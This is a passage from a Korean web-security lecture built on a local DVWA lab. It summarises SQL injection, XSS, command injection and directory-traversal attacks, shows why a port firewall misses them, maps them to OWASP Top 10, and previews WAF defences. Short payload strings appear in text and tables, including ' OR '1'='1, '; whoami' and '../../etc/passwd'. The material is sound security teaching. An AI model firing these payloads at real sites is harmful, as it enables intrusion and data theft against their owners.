# %3D : URL 인코딩된 등호
```

예상 출력:

```
            <pre>ID: 1' OR '1'='1<br />First name: admin<br />Surname: admin</pre>
            <pre>ID: 1' OR '1'='1<br />First name: Gordon<br />Surname: Brown</pre>
            ...
```

> **인사이트:** 공격이 명령어 한 줄에 들어간다는 건, **자동화 도구(`sqlmap` 등)가 1초에 수천 번** 시도할 수 있다는 뜻입니다. 공격자는 손으로 하지 않습니다 — 봇이 합니다. 그래서 방어도 자동화돼야 합니다(WAF는 그 자동화의 한 형태).
{: .prompt-info }

---

## Part 5. 종합 — 공격 ↔ 7주차 방어 매핑

위에서 시연한 5가지 공격을 7주차 방화벽 관점에서 정리합니다.

| 공격 | 통과한 포트 | 방화벽 입장 | 막혔는가 |
|------|------------|------------|---------|
| SQL Injection (`' OR '1'='1`) | 80 (HTTP) | 80은 ALLOW 규칙 | ❌ 막지 못함 |
| XSS (`<script>...`) | 80 (HTTP) | 80은 ALLOW 규칙 | ❌ 막지 못함 |
| Command Injection (`; whoami`) | 80 (HTTP) | 80은 ALLOW 규칙 | ❌ 막지 못함 |
| Directory Traversal (`../../etc/passwd`) | 80 (HTTP) | 80은 ALLOW 규칙 | ❌ 막지 못함 |
| (참고) MariaDB 직접 접근 | 3306 시도 | 3306은 deny | ✅ 차단됨 (7-2 결과) |

> **방화벽의 한계가 너무도 명확하게 드러납니다.** 80번 포트로 들어오는 한 어떤 페이로드든 통과합니다. 방화벽은 **"문이 열려 있는가"** 만 보지, **"문 안으로 무엇이 들어가는가"** 를 보지 않기 때문입니다.
{: .prompt-warning }



---

## Part 6. 실무 인사이트

### 6.1 OWASP Top 10 — 매년 업계가 공유하는 공통 인지

OWASP(Open Web Application Security Project)는 매년 가장 흔한 웹 취약점 Top 10을 발표합니다. 오늘 시연한 공격이 어디 들어가는지 봅니다.

| OWASP Top 10 (2021) | 오늘 실습과 매핑 |
|---------------------|-----------------|
| A01: Broken Access Control | File Inclusion/Directory Traversal처럼 허용되지 않은 파일에 접근하는 흐름 |
| A02: Cryptographic Failures | DVWA의 "Insecure CAPTCHA" 등 |
| A03: **Injection** | **오늘 SQL Injection · Command Injection · XSS** |
| A04: Insecure Design | (구조 자체 결함) |
| A05: Security Misconfiguration | DVWA가 의도한 취약 설정, PHP `allow_url_include` 같은 위험 설정 |
| A06: Vulnerable Components | 옛 라이브러리 사용 |
| A07: Identification and Authentication Failures | DVWA의 약한 비밀번호 정책 |
| A08: Software and Data Integrity Failures | (CDN/패키지 신뢰) |
| A09: Security Logging and Monitoring Failures | (로그 부재) |
| A10: Server-Side Request Forgery | 오늘 직접 실습하진 않지만, 서버가 외부 URL을 대신 요청하게 만드는 취약점 |

오늘 실습한 SQLi·XSS·Command Injection은 OWASP Top 10의 **A03 (Injection)** 카테고리와 직접 연결됩니다. Directory Traversal/File Inclusion은 상황에 따라 Broken Access Control 또는 Security Misconfiguration 관점에서 함께 다룹니다.

### 6.2 왜 공격을 직접 해보는 게 학습에 중요한가

> 보안 학습에서 흔한 함정: **"공격을 본 적이 없는 사람은 자신이 짠 코드의 어디가 위험한지 모른다."**

방어 코드를 잘 짜려면 공격이 어떻게 들어오는지 알아야 합니다. 단순히 `mysql_real_escape_string()` 을 호출하라고 외우는 것과, "이 한 줄이 없으면 `' OR '1'='1` 한 방에 모든 데이터가 털린다" 를 손으로 본 것은 학습 깊이가 다릅니다.

### 6.3 합법성 — 절대 잊지 말 것

오늘 배운 공격 기법은 **본인 소유의 학습 환경에서만** 사용해야 합니다. 다른 사람의 웹사이트를 허락 없이 공격하는 것은 **정보통신망법 위반**으로 형사처벌 대상입니다.

| 합법 (학습) | 불법 (절대 금지) |
|-------------|------------------|
| 본인 노트북의 DVWA | 학교·회사·타인 웹사이트 |
| HackTheBox·TryHackMe 같은 합법 플랫폼 | 인터넷에서 임의 사이트 |
| 모의해킹 계약 후 명시된 대상 | "한번 시험만 해본다" 는 변명 |

---

## Part 7. 정리 + 다음 시간 예고

오늘 배운 것:

| 항목 | 내용 |
|------|------|
| DVWA 설치 | Apache + PHP + MariaDB + DVWA 소스 |
| DVWA 보안 레벨 | Low / Medium / High / Impossible |
| SQL Injection | `' OR '1'='1` — 모든 데이터 노출 |
| UNION SELECT | 다른 테이블(비밀번호 해시 포함) 추출 |
| XSS | `<script>` 태그 페이지에 박기 → 쿠키 탈취 가능 |
| Command Injection | `;` 로 OS 명령 이어 붙이기 → 서버 장악으로 |
| Directory Traversal | `../` 로 웹 루트 바깥 파일 읽기 → 시스템 파일·설정 노출 |
| 방화벽 한계 | 80은 허용된 포트라 본문 검사 불가 |



> **다음 시간 예고 (8-2):**
> 같은 DVWA·같은 공격에 대해, Apache 위에 **ModSecurity + OWASP Core Rule Set** 을 올려서 막아 봅니다.
>
> - 오늘 통한 SQLi·XSS·Command Injection이 → **403 Forbidden** 으로 차단되는 모습 확인
> - WAF 로그(`modsec_audit.log`) 분석으로 "어떤 룰이 잡았나" 추적
> - 거짓 양성(False Positive) 처리 — 실무에서 가장 골치 아픈 부분
>
> 7주차 방화벽 + 8주차 WAF 가 합쳐져야 비로소 일반 웹 서버에 필요한 외곽 방어가 완성됩니다.
{: .prompt-info }

---

## ⚠️ 실습 종료 후

DVWA가 켜진 상태로 두면 위험합니다. 실습이 끝나면 다음 중 하나를 선택:

```bash
# (가벼운) Apache만 끄기 — VM 다시 켤 때 8-2 이어서 가능
sudo systemctl stop apache2

# (강한) DVWA 폴더 자체 제거
sudo rm -rf /var/www/html/dvwa

# (가장 안전) VM 스냅샷 복원으로 깨끗한 상태로 돌리기
```

8-2 실습을 곧 이어서 한다면 **그대로 두고** 진행해도 됩니다. 단, 외부 네트워크에는 절대 노출되지 않도록 주의.
